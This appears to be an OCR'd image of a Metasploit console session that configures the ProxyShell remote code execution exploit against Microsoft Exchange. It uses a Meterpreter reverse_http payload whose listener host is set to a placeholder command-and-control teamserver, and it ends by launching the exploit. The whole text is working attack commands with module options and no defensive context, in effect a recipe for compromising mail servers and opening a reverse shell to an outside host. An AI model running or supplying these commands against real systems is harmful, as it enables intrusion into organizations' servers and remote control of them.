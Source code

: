 ```
msf6 exploit(windows/http/exchange_proxyshell_rce) > options

Module options (exploit/windows/http/exchange_proxyshell_rce): 

  Name              Current Setting  Required  Description
  ----              ---------------  --------  -----------
  EMAIL                              no        A known email address for this organization
  Proxies                            no        A proxy chain of format type:host:port[,type:host:port][...]
  RHOSTS                             yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
  RPORT             443              yes       The target port (TCP)
  SRVHOST           0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
  SRVPORT           8080             yes       The local port to listen on.
  SSL               true             no        Negotiate SSL/TLS for outgoing connections
  SSLCert                            no        Path to a custom SSL certificate (default is randomly generated)
  URIPATH                            no        The URI to use for this exploit (default is random)
  UseAlternatePath  false            yes       Use the IIS root dir as alternate path
  VHOST                              no        HTTP server virtual host


Payload options (windows/x64/meterpreter/reverse_http):

  Name      Current Setting  Required  Description
  ----      ---------------  --------  -----------
  EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
  LHOST                      yes       The local listener hostname
  LPORT     8080             yes       The local listener port
  LURI                       no        The HTTP Path


Exploit target:

  Id  Name
  --  ----
  0   Windows Powershell


msf6 exploit(windows/http/exchange_proxyshell_rce) > set rhosts <target_IP>
rhosts => <target_IP>
msf6 exploit(windows/http/exchange_proxyshell_rce) > set lhost <teamserver_C2>
lhost => <teamserver_C2>
msf6 exploit(windows/http/exchange_proxyshell_rce) > set lport 80
lport => 80
msf6 exploit(windows/http/exchange_proxyshell_rce) > set DisablePayloadHandler true
DisablePayloadHandler => true
msf6 exploit(windows/http/exchange_proxyshell_rce) > set PrependMigrate true
PrependMigrate => true
msf6 exploit(windows/http/exchange_proxyshell_rce) > set AllowNoCleanup true
AllowNoCleanup => true
msf6 exploit(windows/http/exchange_proxyshell_rce) > exploit
```

